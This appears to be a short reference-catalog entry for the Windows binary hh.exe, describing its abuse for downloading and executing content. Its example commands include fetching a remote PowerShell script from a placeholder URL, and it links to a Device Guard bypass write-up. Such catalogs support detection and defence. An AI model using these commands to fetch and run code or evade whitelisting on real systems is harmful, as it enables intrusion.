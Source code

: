 ## hh.exe

* Functions: Download, Execute

```
HH.exe http://www.google.com      

HH.exe C:\    

HH.exe c:\windows\system32\calc.exe    

HH.exe http://some.url/script.ps1    
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/

Full path:
```
c:\windows\system32\hh.exe
c:\windows\sysWOW64\hh.exe
```

Notes:



 
